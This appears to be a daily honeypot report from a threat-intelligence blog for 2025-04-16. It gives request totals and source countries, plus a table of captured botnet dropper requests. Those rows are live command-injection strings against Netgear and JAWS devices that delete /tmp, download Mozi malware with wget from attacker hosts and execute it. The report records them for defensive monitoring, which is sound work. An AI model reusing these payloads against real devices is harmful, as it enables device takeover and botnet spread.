 ```yaml
---
title: "Report: 2025-04-16 "
date: 2025-04-16
desciption: "Report: 2025-04-16" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-16 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 4 dropper URL(s).  

There are 894 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 7888 requests were recorded during the day, originating from 4 different countries, with a peak of 3322 requests coming from SC.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| MY               | Australia          |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                      |
|:--------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 122.96.31.77  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                        |
| 202.66.164.76 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://202.66.164.76:42524/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 103.148.152.3 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://103.148.152.39:34617/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                               |
| 217.18.90.37  | GET /shell?cd+/tmp;rm+-rf+*;wget+31.58.51.98/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                      |
